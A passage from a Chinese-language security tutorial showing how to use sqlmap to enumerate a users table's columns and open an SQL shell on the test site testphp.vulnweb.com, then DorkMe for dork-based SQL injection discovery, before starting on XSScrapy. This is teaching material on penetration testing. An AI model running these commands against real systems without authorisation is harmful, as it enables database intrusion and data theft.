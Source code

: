 ```py
$ python sqlmap.py -u [URL] -D [Database] -T [table] --columns
sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=*" -D acuart -T users --columns
```

在这里，我们从用户表中获取列：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/ms-py-net-sec/img/948d4ea1-9b96-47c7-9ad7-e817d5366bd5.png)

使用此命令，我们可以获得一个交互式 shell：

```py
$ python sqlmap.py -u [URL] --sql-shell
sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=*" --sql-shell
```

在这里，我们获得一个与数据库交互的 shell，使用 sql 语言查询：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/ms-py-net-sec/img/18f7991f-639c-4f3a-8c3a-4efdafa79d07.png)

# 其他用于检测 SQL 注入漏洞的工具

在 Python 生态系统中，我们可以找到其他工具，例如 DorkMe 和 Xsscrapy，用于发现 SQL 注入漏洞。

# DorkMe

DorkMe 是一个旨在通过 Google Dorks 更轻松地搜索漏洞的工具，例如 SQL 注入漏洞([`github.com/blueudp/DorkMe`](https://github.com/blueudp/DorkMe))。

您还需要安装`pip install Google-Search-API` Python 包。

我们可以使用`requirements.txt`文件检查依赖项并安装它们：

```py
pip install -r requirements.txt
```

这是脚本提供的选项：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/ms-py-net-sec/img/f3dcb505-a57c-47a1-9d7b-4a38abce9acd.png)

我们可以检查在上一节中使用 sqlmap 的相同`url`。我们可以使用建议用于测试的`--dorks vulns -v`选项参数：

```py
python DorkMe.py --url http://testphp.vulnweb.com/listproducts.php --dorks vulns -v
```

我们可以看到我们获得了高影响力的 SQL 注入漏洞：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/ms-py-net-sec/img/3a242171-0cd7-42ea-b572-43668e9098b0.png)

# XSScrapy

XSScrapy 是基于 Scrapy 的应用程序，允许我们发现 XSS 漏洞和 SQL 注入类型的漏洞。
